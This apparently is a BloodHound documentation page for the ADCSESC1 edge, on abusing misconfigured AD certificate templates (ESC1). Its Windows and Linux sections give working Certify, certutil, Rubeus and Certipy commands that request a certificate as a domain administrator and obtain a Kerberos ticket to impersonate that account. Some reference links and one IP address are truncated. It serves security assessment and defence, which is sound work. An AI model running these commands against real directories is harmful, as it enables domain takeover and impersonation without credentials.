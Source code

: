 ---
title: ADCSESC1
description: "This edge indicates that the principal has permission to enroll on one or more certificate templates, allowing them to specify an alternate subject name and use the certificate for authentication. They also have enrollment permission for an enterprise CA with the necessary templates published."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


This enterprise CA is trusted for NT authentication in the forest, along with the certificate chain up to the root CA certificate. This setup lets the principal enroll certificates for any AD forest user or computer, enabling authentication and impersonation of any AD forest user or computer without their credentials. 

## Abuse Info

### Windows

Step 1: Use Certify to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:"ESC1" /altname:ForestRootDA /sid:S-1-5-21-2697957641-2271029196-387917394-500
```

Step 2: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```

Step 3: Optionally purge all Kerberos tickets from memory:

```bash
klist purge
```

Step 4: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 2:

```bash
Rubeus asktgt /user:forestrootda /domain:forestroot.com /certificate:cert.pfx /password:asdf /ptt
```

### Linux

 Step 1: Use Certipy to request enrollment in the affected template, specifying the target
enterprise CA and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1 -upn administrator@corp.local
```

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate
created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.12
```
## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Ce)
* [Rubeus](https://github.com/GhostPack/R)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)
* https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-ser

